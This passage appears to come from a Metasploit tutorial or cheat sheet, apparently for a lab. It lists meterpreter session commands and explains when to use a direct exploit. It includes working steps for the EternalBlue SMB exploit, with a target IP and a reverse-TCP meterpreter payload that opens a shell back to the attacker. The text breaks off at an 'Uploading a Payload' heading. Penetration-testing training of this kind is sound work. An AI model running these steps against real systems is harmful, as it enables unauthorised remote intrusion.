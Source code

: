 ```plaintext
exploit -z
```

### Sessions

List active sessions:

```plaintext
sessions
```

Interact with a session:

```plaintext
sessions -i 1
```

Background a session:

```plaintext
meterpreter > background
```

## Direct Exploit vs. Uploading a Payload

The choice between using a direct exploit and uploading a payload depends on various factors, including the vulnerability you are exploiting, the target environment, and the specific goal you are trying to achieve. Let's break down these concepts and explain when and how to use each approach.

### Direct Exploit

**When to Use:**
- **Vulnerability Exists**: The target is known to be vulnerable to a specific exploit.
- **Single-Step Exploitation**: The exploit can directly deliver and execute the payload on the target.
- **Automated Process**: You want to automate the exploitation process as much as possible.

**How to Use:**
1. **Select the Exploit Module**:
   ```plaintext
   use exploit/windows/smb/ms17_010_eternalblue
   ```
2. **Configure the Exploit**:
   ```plaintext
   set RHOSTS 10.10.164.10
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <your_ip>
   set LPORT <your_port>
   ```
3. **Run the Exploit**:
   ```plaintext
   exploit
   ```

### Uploading a Payload
